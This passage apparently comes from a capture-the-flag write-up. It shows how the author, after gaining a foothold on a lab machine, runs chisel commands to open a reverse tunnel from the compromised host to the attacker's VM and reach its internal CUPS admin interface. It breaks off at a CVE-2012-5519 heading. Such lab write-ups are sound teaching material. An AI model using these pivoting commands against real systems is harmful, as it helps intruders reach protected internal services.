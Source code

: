     2022-05-02 13:23:22 (2.78 MB/s) - ‘chisel_1.7.7_linux_amd64’ saved [8077312/8077312]
    

On my host, I’ll run the same binary as the server:

    
    
    oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 9000 --reverse
    2022/05/02 13:29:45 server: Reverse tunnelling enabled
    2022/05/02 13:29:45 server: Fingerprint nAhajozV41EjYejrhftqY6829U+uzLWqa/ESPyvCIFM=
    2022/05/02 13:29:45 server: Listening on http://0.0.0.0:9000
    

`-p 9000` sets that as the port to listen on (any port will do, but the
default is 8080, which Burp is already using on my host), and `--reverse`
allows for reverse tunnels, so that a client can open a listening port on my
VM.

Now I’ll connect to it from Antique:

    
    
    lp@antique:/dev/shm$ chmod +x chisel_1.7.7_linux_amd64
    lp@antique:/dev/shm$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:9000 R:9631:localhost:631                                              
    <x_amd64 client 10.10.14.6:9000 R:9631:localhost:631
    2022/05/02 13:30:16 client: Connecting to ws://10.10.14.6:9000
    2022/05/02 13:30:17 client: Connected (Latency 90.506923ms)
    

This tells `chisel` to connect to my VM on 9000, and to create a listening on
my VM on 9631 (I can’t use ports under 1024 because I didn’t run the server as
root). Any traffic that hits that listening port will be forwarded by `chisel`
to Antique and then send to port 631 on Antique from Antique.

On my host, pointing Firefox at `localhost:9631` loads the page.

#### Page

The page is a CUPS page:

![image-20220502093143737](https://0xdfimages.gitlab.io/img/image-20220502093143737.png)

[CUPS](http://www.cups.org/) is an open-source printing system.

The “Administration” tab shows the printers that are connected (none), as well
as jobs, classes, and other bits of administrative information.

![image-20220502100304702](https://0xdfimages.gitlab.io/img/image-20220502100304702.png)

The “Server” section has links to show various logs. If I try to edit and save
the configuration file, it pops asking for auth, which I don’t have.

In the error log, I can see the request I made earlier:

![image-20220502100408767](https://0xdfimages.gitlab.io/img/image-20220502100408767.png)

### CVE-2012-5519

#### Background
